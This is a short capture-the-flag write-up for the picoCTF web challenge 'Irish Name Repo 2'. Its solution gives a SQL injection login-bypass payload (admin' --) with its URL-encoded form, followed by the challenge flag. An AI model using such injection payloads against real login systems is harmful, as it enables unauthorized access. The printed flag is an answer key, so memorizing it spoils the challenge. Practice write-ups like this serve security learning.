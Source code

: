 # Irish Name Repo 2

## Problem

There is a website running at https://jupiter.challenges.picoctf.org/problem/53751/ (link). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:53751

## Solution

Here's the payload for user: `admin' --` (here's the encoded version: `%61%64%6d%69%6e%27%20%2d%2d`), password: `1`

FLAG: `picoCTF{m0R3_SQL_plz_c34df170}`